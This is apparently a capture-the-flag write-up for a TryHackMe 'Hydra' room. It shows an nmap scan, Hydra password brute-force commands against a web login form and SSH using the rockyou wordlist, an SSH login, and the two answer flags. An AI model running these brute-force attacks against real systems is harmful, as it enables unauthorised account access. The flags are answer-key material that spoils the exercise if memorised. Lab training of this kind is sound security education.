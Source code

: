 # Hydra 

### [Task 2] 

###  1. Use Hydra to bruteforce molly's web password. What is flag 1?



* Scan open ports
```nmap -sV -sS 10.10.166.155```

![nmap-scan](https://user-images.githubusercontent.com/62840507/128612421-d85ea0f6-64de-454c-ac84-dfb749fe4fa8.png)



* There is a website on port 80. Let's take a look at it. 

![Ekran Görüntüsü (2)](https://user-images.githubusercontent.com/62840507/128612567-faacea6f-38fc-46ab-9c91-991377fbd9d8.png)



* According ot the question the user name is molly and we now need to find her password with hydra.

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V ```

![image](https://user-images.githubusercontent.com/62840507/128612618-53e8b508-20c2-47ac-80ea-1dfd8084c80b.png)



* Login with these credentials and you will find the flag.

**Flag1 :** THM{2673a7dd116de68e85c48ec0b1f2612e}




### 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* We need SSH password. Command I used

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 ssh -t 4 ```

![image](https://user-images.githubusercontent.com/62840507/128612950-a4045c04-23ef-437c-8866-7140512b8bdb.png)



* Now that we have the SSH password, we can login in with those credentials.

```ssh molly@10.10.166.155```

![image](https://user-images.githubusercontent.com/62840507/128613063-397a5fde-6554-4a2c-9513-37d0569b3948.png)




**Flag2 :** THM{c8eeb0468febbadea859baeb33b2541b}


